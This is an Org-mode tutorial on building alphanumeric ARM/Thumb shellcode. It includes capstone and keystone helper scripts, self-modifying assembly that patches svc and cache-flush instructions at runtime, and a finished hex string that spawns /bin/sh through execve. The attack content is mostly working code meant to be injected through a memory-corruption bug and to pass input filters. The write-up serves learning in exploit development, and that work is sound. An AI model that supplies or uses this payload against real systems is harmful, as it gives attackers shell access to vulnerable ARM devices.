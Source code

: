 #+TITLE:  ARM Architecture
#+AUTHOR:    Vishnu Dev TJ
#+EMAIL:     vishnudevtj@gmail.com
#+TAGS: reversing,arm,shellcode

* Alphanumeric ARM Shellcode

Shellcode is a piece of code that is used as payload in binary exploitation . It is called a shellcode because for most of the time it 
is used create shell session to the attacker . The process of creating shellcode is that we write the required code in assembly language
and this is converted to binary by assembling these instructions and this is used . And with a security vulnerability we can make the 
software execute this code thus giving us access to the machine . Some times these shellcode should pass thought many filters due to the 
method how the data is read or there might be restriction on the possible characters that can be given as input to the program , for example 
if the program reads the input as command line argument the shellcode should not contain  null characters because the string is terminated 
by a null and the program will only get the values till that position .

An alphanumeric shellcode should only have alphanumeric characters in it . Most of the input filed will accept this input thus this shellcode
have a higher success rate that it will be accepted by the program . We will be creating a shellcode for ARM Architecture

So lets begin ,   

We can use  capstone to brute all the possible instructions that can be used in both arm and thumb mode . This was useful a couple of time

#+BEGIN_SRC python :results output org drawer

from capstone import *
from itertools import permutations

VALID = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"

THUMB = False

if THUMB:
    md = Cs(CS_ARCH_ARM, CS_MODE_THUMB)
else:
    md = Cs(CS_ARCH_ARM, CS_MODE_ARM)

for j in permutations(VALID,4):
    for i in md.disasm(''.join(j), 0x1000):
        print("%s:\t%s\t%s" %(''.join(j), i.mnemonic, i.op_str))
#+END_SRC

The ~phrack~ [[http://phrack.org/issues/66/12.html][Issue 66 Article 12]] ~Alphanumeric RISC ARM Shellcode~ by Yves Younan and  Pieter Philippaerts was really help full . There is
also [[http://amnesia.gtisc.gatech.edu/~moyix/CCS_09/docs/p11.pdf][updated]] version of this paper by the same person

Then i needed a way to check whether an instruction is alphanumeric or not and we need to generate the shellcode .

#+BEGIN_SRC python :results output org drawer :tangle /tmp/test.py

from keystone import *
from termcolor import colored

# ARM Aphanumeric Shellcode Checker

THUMB = True

CODE = '''
adds r1 , 0x41
'''

CODE = CODE.split('\n')
 
shellcode = []

print colored("-"*0x20,'white')
try:
  # Initialize engine in X86-32bit mode
  if THUMB:
    ks = Ks(KS_ARCH_ARM, KS_MODE_THUMB)
  else:
    ks = Ks(KS_ARCH_ARM, KS_MODE_ARM)
  for i in CODE:
    encoding, count = ks.asm(i)
    if encoding != None :
        encoding = list(encoding)
        for j in encoding:
            shellcode.append(str('\\'))
            shellcode.append(str('x'))
            shellcode.append(hex(j)[2:])
            if chr(j) not in "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz":
                print colored(  str(j) ,'red' ,),
            else:
                print colored(
                  str(j) ,'green' ,),
        print colored("\t->\t%s " %(i),'blue')
    

except KsError as e:
  print("ERROR: %s" %e)

print(''.join(shellcode))
#+END_SRC

I basically checks whether the instruction is alphanumeric or not and prints the result with colors ;) .

#+BEGIN_SRC nasm 
$ python test.py
--------------------------------
65 49   ->      adds r1 , 0x41 
\x41\x31
#+END_SRC

There was a Alphanumeric shellcode in the phrack article which did not work for me , The code crashes on STM instruction which is used to
push some values to the sack . Later these values are poped from the stack and loaded to the register . The thing is ,in ARM the argument
to a syscall is passed through the registers r0-r3 and the syscall number is in r7 register . So loading values to these registers are
really important the only instruction that can be used to manipulate this is LDM and STM , load multiple and store multiple in ARM mode .
The case is different in THUMB mode. In thumb mode we can manipulate these registers . I am talking in the context that these instruction
should produce alphanumeric characters .

To get a shell we need to call the execve syscall with the ~svc~ instruction which is not a alphanumeric instruction , the solution is to 
write the correct hex at that location at run time ie , we need to write a self modifying code . And there is instruction cache in ARM 
which is not invalidated even when instruction in memory is changed. In x86 this happens automatically . Therefor we have to 
flush the cache manually

#+BEGIN_SRC nasm 
MOV   r0 , #0
MOV   r1 , #−1
MOV   r2 , #0
SWI 0x9F0002
#+END_SRC

This code can be used to flush the cache . Actually the ~0x9f0002~ will not be alphanumeric , but the 0x9f0002 is treated as data passed
to the interrupt so we can give any number which gives alphanumeric code then later change it to the required value at runtime .

The above instruction is for ARM mode , and We can only manipulate the value of r0-r3 register in THUMB mode , So we have to copy the 
required value to the correct register in THUMB mode then switch to ARM mode to execute this instruction that will flush the cache the again
return to THUMB mode and call the syscall with ~svc~ instruction .

All the modification of code should be done before the flush is called.

Lets assume that  r0 register contains the value 0 

#+BEGIN_SRC nasm 
muls r1 , r0      # r1=0
muls r2 , r0      # r2=0
mov r0 , pc       # r0=pc

muls r5, r2       #r5=0
adds r1, 0x43
subs r1, 0x41
adds r5, 0x41
strb r1 ,[ r0 , r5 ]

muls r5 , r2
muls r1 , r2
adds r5, 0x4d
strb r1 ,[ r0 , r5 ]
#+END_SRC

~strb~ instruction can be used to copy a byte to the required location , r0 is initialized with the address of pc we use this as a base
address to write the code . we have to use values in the alphanumeric range to produce the required value with some arithmetic operation.
In the above code stores 0x2 at the location r0+0x41 and 0x0 at location r0+0x4d . like this we have to modify all the required values .

To jump from THUMB mode to ARM mode we can use ~bx pc~ instruction and from ARM to THUMB we can use ~bx r6~ so we need to load the address 
of the location we need to jump before that . 

So we will first jump to thumb mode change the code , set the correct register values to flash the cache then jump to arm mode flush 
the cache change to thumb mode set "/bin/sh" and call execve syscall .

This is the finished shellcode , It is not that optimized but does the job .

#+BEGIN_SRC nasm 
 # we are asuming that r0=0
.code 16
	muls r1 , r0  # r1=0
	muls r2 , r0  # r2=0
	mov r0 , pc   # r0=pc

	muls r5, r2      # the following code are for inserting
	adds r1, 0x43    # swi and bx instructions
	subs r1, 0x41    # 2 0 159 239     ->      swi 0x9f0002
      adds r5, 0x4d    # 22 255 47 225   ->      bx r6
	adds r5, 0x41  
	strb r1 ,[ r0 , r5 ]

	muls r5 , r2
	muls r1 , r2
	adds r5, 0x4d
	adds r5, 0x42
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x61
	adds r1, 0x70
	subs r1, 0x32
	adds r5, 0x4d
	adds r5, 0x43
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	adds r1, 0x50
	adds r5, 0x4d
	adds r5, 0x44
	strb r1 ,[ r0 , r5 ]


	muls r5, r2
	muls r1, r2
	adds r1, 0x61
	subs r1, 0x4b
	adds r5, 0x4d
	adds r5, 0x45
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x7a
	adds r1, 0x41
	adds r1, 0x44
	adds r5, 0x4d
	adds r5, 0x46
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	muls r1, r2
	adds r1, 0x7a
	subs r1, 0x4b
	adds r5, 0x4d
	adds r5, 0x47
	strb r1 ,[ r0 , r5 ]

	muls r5, r2
	adds r1, 0x70
	adds r1, 0x42
	adds r5, 0x4d
	adds r5, 0x48
	strb r1 ,[ r0 , r5 ]

	muls r5, r2           # this block write 0xdf 
	adds r1, 0x41         # which is the opcode for svc instruction
	subs r1, 0x43
	adds r5, 0x39
	adds r5, 0x41
	adds r5, 0x4d
	strb r1 ,[ r0 , r5 ]

	muls r1 , r2          # set r6 regiseter with correct location
	adds r1, 0x41
	subs r1, 0x42
	negs r6 , r1
	muls r6 , r0
	adds r6 , 0x4d
	adds r6 , 0x4a

	muls r0,r2           # r0=0
	muls r1,r2          
	adds r1 , 0x41       
	subs r1 , 0x42       # r1=-1

	bx pc 
	adds r7,0x41

.byte 0x41 0x41 0x41 0x41    # these bytes are modified to swi 0x9f0002
.byte 0x41 0x41 0x41 0x41    # bx r6

	muls r2 , r0
	mov r0 , pc
	muls r5 , r2
	muls r1 , r2

	adds r1 , 100           # AbinAshA is changed to /bin/sh
	subs r1 , 53
	adds r5 , 48           
	strb r1 ,[ r0 , r5 ]

	muls r5 , r2
	adds r5 , 52
	strb r1 , [ r0 , r5]

	muls r5 , r2
	adds r5 , 55
	strb r2 , [ r0 , r5]

	muls r1,r2
	adds r1 , 0x50
	subs r1 , 0x51
	negs r7 , r1     # r7=1
	muls r1,r2
	adds r1, 0x4c
	subs r1 , 0x41   # r1=0xb
	muls r7 , r1     # r7=0xb
	adds r0, 48
	muls r1 , r2

.byte 0x41 0x41    # svc instruction 
.ascii "AAAAAbinAshA"
#+END_SRC

Final shellcode 


#+BEGIN_QUOTE
"\x41\x43\x42\x43\x78\x46\x55\x43\x43\x31\x41\x39\x4d\x35\x41\x35\x41\x55\x55\x43\x51\x43\x4d\x35\x42\x35\x41\x55\x55\x43\x51\x43\x61\x31\x70\x31\x32\x39\x4d\x35\x43\x35\x41\x55\x55\x43\x50\x31\x4d\x35\x44\x35\x41\x55\x55\x43\x51\x43\x61\x31\x4b\x39\x4d\x35\x45\x35\x41\x55\x55\x43\x51\x43\x7a\x31\x41\x31\x44\x31\x4d\x35\x46\x35\x41\x55\x55\x43\x51\x43\x7a\x31\x4b\x39\x4d\x35\x47\x35\x41\x55\x55\x43\x70\x31\x42\x31\x4d\x35\x48\x35\x41\x55\x55\x43\x41\x31\x43\x39\x39\x35\x41\x35\x4d\x35\x41\x55\x51\x43\x41\x31\x42\x39\x4e\x42\x46\x43\x4d\x36\x4a\x36\x50\x43\x51\x43\x41\x31\x42\x39\x78\x47\x41\x37\x41\x41\x41\x41\x41\x41\x41\x41\x42\x43\x78\x46\x55\x43\x51\x43\x64\x31\x35\x39\x30\x35\x41\x55\x55\x43\x34\x35\x41\x55\x55\x43\x37\x35\x42\x55\x51\x43\x50\x31\x51\x39\x4f\x42\x51\x43\x4c\x31\x41\x39\x4f\x43\x30\x30\x51\x43\x41\x41\x41\x41\x41\x41\x41\x62\x69\x6e\x41\x73\x68\x41"  
#+END_QUOTE

Happy Hacking !!



